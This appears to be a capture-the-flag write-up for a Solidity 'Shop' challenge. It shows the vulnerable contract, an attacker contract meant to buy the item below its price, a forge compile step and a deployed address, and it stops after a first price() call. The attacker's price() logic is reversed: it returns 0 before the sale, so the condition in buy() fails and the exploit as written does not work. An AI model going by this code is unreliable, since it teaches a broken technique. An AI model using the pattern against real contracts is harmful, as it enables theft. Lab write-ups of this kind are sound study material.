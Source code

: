 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack {
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function price() external view returns(uint) {
        if (buyer.isSold()) {
            return 100;
        } else {
            return 0;
        }
    }

    function buy() external {
        buyer.buy();
    }
}
```
We can compile this using forge

![image](https://github.com/user-attachments/assets/2dbd4a6e-c18f-44e0-ac06-ec1d7d4931a0)

We've successfully compiled the attack contract and we got the contract address to be `0x5A6dD3c52df84Fea9c50f0c6ad9d56656EaA7abf`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/73dbf1f5-e8f3-413d-9178-7d47cfedd0ec)


























